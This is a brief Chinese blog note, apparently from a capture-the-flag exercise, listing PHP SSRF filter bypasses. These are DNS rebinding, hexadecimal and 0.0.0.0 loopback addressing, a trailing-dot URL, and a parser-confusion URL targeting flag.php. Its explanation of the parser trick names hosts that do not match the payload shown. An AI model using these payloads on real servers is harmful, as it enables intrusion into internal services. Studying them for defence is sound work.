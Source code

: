 ```yaml
---
title: 记录一次SSRF绕过内网地址限制
date: 2019-06-22 00:39:31
categories: Web安全
tags: SSRF
---
```


记录一次php ssrf 绕过内网限制
<!--more-->
# 0x01 dns rebinding

多次访问刷新成功绕过
dns rebinding 利用地址 ：
https://lock.cmpxchg8b.com/rebinder.html
https://github.com/brannondorsey/whonow 

# 0x02 ip进制转换

```
→  ~ php -r 'echo gethostbyname("0x7f000001");'
0x7f000001#                                                                                       
→  ~ php -r 'echo ip2long("0x7f000001")>>24;'  
0#    
→  ~ ping -c1 0x7f000001
PING 0x7f000001 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.068 ms


--- 0x7f000001 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.068/0.068/0.068/0.000 ms

→  ~ ping -c1 0.0.0.0   
PING 0.0.0.0 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.066 ms


--- 0.0.0.0 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.066/0.066/0.066/0.000 ms
```

# 0x03 Enclosed alphanumerics 

网上别人的payload url=http://127.0.0.1./flag.php


# 0x04 url解析不一致

http://1:2@127.0.0.1:80%20@baidu.com/flag.php
parse_url 获得的地址是google.com, cURL 访问的是 evil.com
![](/image/php_ssrf.png)

参考文档:us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf

